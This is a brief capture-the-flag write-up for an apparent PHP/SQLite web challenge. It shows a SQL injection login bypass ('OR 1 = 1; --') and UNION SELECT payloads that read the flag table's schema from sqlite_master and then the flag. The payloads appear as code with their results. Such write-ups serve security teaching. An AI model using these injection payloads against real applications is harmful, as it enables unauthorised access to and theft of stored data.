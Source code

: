 Log in as an admin using these inputs

Username and password: `' OR 1 = 1; --`

After logging in, retrieve the schema for the `flag` table, by specifying this input to search:

```
' UNION SELECT (SELECT sql FROM sqlite_master WHERE name = 'flag'), 2, 3; --
```

![SQL: `CREATE TABLE "flag" ( "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, "flag" VARCHAR)`](images/my-first-php-1.png)

After observing the `flag` column in the `flag` table, inject a subquery to retrieve it:

```
' UNION SELECT (SELECT flag FROM flag), 2, 3; --
```

![SQL: `CTF{i_5h0uLd_pRoBs_l3aRn_aBoUt_pRePaRed_qU3ri3s...}`](images/my-first-php-2.png)

